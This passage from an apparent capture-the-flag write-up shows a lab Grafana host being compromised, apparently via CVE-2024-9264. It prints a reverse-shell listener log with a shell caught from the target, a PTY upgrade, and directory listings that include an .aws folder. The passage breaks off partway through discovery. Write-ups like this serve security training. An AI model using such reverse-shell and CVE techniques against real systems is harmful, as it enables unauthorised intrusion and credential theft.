 ```bash
└─$ penelope -p 3333
[+] Listening for reverse shells on 0.0.0.0:3333 →  127.0.0.1 • 172.xx.xx.xx • 172.xx.xx.xx • 10.10.16.36
- 🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from 7ce659d667d7~10.129.237.241-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[!] Python agent cannot be deployed. I need to maintain at least one basic session to handle the PTY
[+] Attempting to spawn a reverse shell on 10.10.16.36:3333
[+] Got reverse shell from 7ce659d667d7~10.129.237.241-Linux-x86_64 😍 Assigned SessionID <2>
[+] Shell upgraded successfully using /usr/bin/script! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/7ce659d667d7~10.129.237.241-Linux-x86_64/2025_08_18-11_22_01-499.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@7ce659d667d7:~# ls -la
total 76
drwxr-xr-x  1 root    root  4096 Aug 18 15:22 .
drwxr-xr-x  1 root    root  4096 May 14  2024 ..
drwxrwxrwx  2 grafana root  4096 May 14  2024 .aws
-rw-------  1 root    root  1366 Aug 18 15:22 .bash_history
drwxr-xr-x  3 root    root  4096 Mar  1 18:01 .duckdb
-rw-r--r--  1 root    root 34523 May 14  2024 LICENSE
drwxr-xr-x  2 root    root  4096 May 14  2024 bin
drwxr-xr-x  3 root    root  4096 May 14  2024 conf
drwxr-xr-x 16 root    root  4096 May 14  2024 public
-rw-r--r--  1 root    root    54 Aug 18 15:20 shell.sh
root@7ce659d667d7:~#
```

Got our reverse shell.

> **Note:** To use this *CVE-2024-9264*, better create an environment `venv-cve` and install the `requirements.txt` in order not to get conflicts with our dependencies.

## Initial Access
From this point, we leverage the credentials provided to got into the machine.

### Discovering
After go around, we found out this interesting file.

```bash
root@7ce659d667d7:/# ls -la
total 64
drwxr-xr-x   1 root root 4096 Apr  4 10:23 .
drwxr-xr-x   1 root root 4096 Apr  4 10:23 ..
-rwxr-xr-x   1 root root    0 Apr  4 10:23 .dockerenv
lrwxrwxrwx   1 root root    7 Apr 27  2024 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 18  2022 boot
drwxr-xr-x   5 root root  340 Aug 18 13:49 dev
drwxr-xr-x   1 root root 4096 Apr  4 10:23 etc
drwxr-xr-x   1 root root 4096 May 14  2024 home
lrwxrwxrwx   1 root root    7 Apr 27  2024 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Apr 27  2024 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Apr 27  2024 libx32 -> usr/libx32
drwxr-xr-x   2 root root 4096 Apr 27  2024 media
drwxr-xr-x   2 root root 4096 Apr 27  2024 mnt
drwxr-xr-x   2 root root 4096 Apr 27  2024 opt
dr-xr-xr-x 291 root root    0 Aug 18 13:49 proc
drwx------   1 root root 4096 Apr  4 12:43 root
drwxr-xr-x   5 root root 4096 Apr 27  2024 run
```